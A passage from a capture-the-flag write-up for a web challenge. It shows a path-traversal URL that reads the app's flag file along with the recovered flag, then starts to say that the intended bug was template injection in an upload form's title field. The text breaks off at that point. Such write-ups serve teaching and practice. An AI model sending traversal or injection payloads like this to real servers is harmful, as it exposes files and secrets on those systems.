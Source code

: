 ```
http://chall.bsidesalgiers.com:8003/uploads?path=static/../../../app/flag.txt

shellmates{tR0ll1nG_@_mem3R_w1tH_4_w3ll_cr4fT3d_1nj3ct10n}
```

Of course i also read the source of  `app.py` x)


### The intended way

Let's move on to the actual solution for this challenge.

It was an SSTI in the title field of the upload form

![upload_form](images/3_2.png)
